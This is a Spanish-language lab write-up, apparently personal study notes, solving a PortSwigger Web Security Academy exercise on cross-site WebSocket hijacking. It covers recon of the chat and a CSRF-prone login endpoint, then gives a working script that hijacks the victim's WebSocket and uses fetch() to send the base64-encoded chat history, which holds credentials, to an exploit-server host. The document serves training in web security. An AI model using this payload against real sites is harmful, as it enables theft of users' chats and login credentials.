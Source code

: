 El chat en vivo de este laboratorio es vulnerable al secuestro de WebSockets entre sitios (CSWSH). Para solucionar el problema, inicie sesión en la cuenta de la víctima.

Para ello, utilice el servidor de exploits proporcionado para ejecutar un ataque CSWSH que exfiltre el historial de chat de la víctima al servidor predeterminado de Burp Collaborator. El historial de chat contiene las credenciales de inicio de sesión en texto plano.


iniciamos el chat y de inmediato podemos recopilar información. sabemos que se llama `Hal Pline` y que su estatus es `CONNECTED`
![[Pasted image 20250721132918.png]]

analizando la solicitud vemos el encabezado `X-Frame-Options: SAMEORIGIN` indica que la página web solo puede ser mostrada en un frame si el sitio que intenta incrustarla está en la misma origen (dominio, esquema y puerto) que la página original
![[Pasted image 20250721133525.png]]

analizando todos los endpoints de la web nos damos cuenta que todos cuenta con la etiqueta `X-Frame-Options: SAMEORIGIN` pero al analizar la solicitud de un post encontramos un endpoints diferente. 
![[Pasted image 20250721133911.png]]

`https://cms-0a9500be04bf9ea5811070e6005900ee.web-security-academy.net` 
este endpoint nos lleva a una web de login donde podemos hacer una comprobación rápida para vulnerabilidades CSRF y logramos identificarla de la siguiente manera.
![[Pasted image 20250721134247.png]]

en el WebSockets History podemos ver el mensaje que hacemos al servidor y su contenido
![[Pasted image 20250721134538.png]]

y también el mensaje que regresa el servido
![[Pasted image 20250721134733.png]]

podemos enviar esta petición al repeater para ver como la respuesta y todos los mensajes que hemos intercambiado con el WebSocket
![[Pasted image 20250721162752.png]]

ahora bien. podemos ver que la dirección del websocket esta definida en la cabecera de respuesta del mensaje lo cual será útil para luego hacer nuestro ataque CSRF
![[Pasted image 20250721163118.png]]

por ultimo encontramos la funcion del chat 
![[Pasted image 20250721164204.png]]

necesitamos hacer algunas modificaciones al codigo.

```python
let newWebSocket = new WebSocket(chatForm.getAttribute("action"));

newWebSocket.onopen = function (evt) {
writeMessage("system", "System:", "No chat history on record");
newWebSocket.send("READY");
res(newWebSocket);
}

newWebSocket.onmessage = function (evt) {
var message = evt.data;
};
```

no necesitamos el atributo `chatForm.getAttribute("action")` ya que este será la dirección de nuestro websocket. es decir la web de login que hemos encontrado.  tampoco vamos a necesitar el `writeMessage` porque no queremos escribir un mensaje. solo queremos enviarlo

```python
<script> 
var newWebSocket = new WebSocket(
"wss://0a8d00d8044c76f98091034900f9004e.web-security-academy.net/chat"
);

newWebSocket.onopen = function (evt) {
	newWebSocket.send("READY");
};

newWebSocket.onmessage = function (evt) {
	var message = evt.data;
	fetch(
	"https://exploit-0a130040047576bc80e70294011400d5.exploit-server.net/exploit?messge=" + btoa(message)
	);
}; 
</script>
```


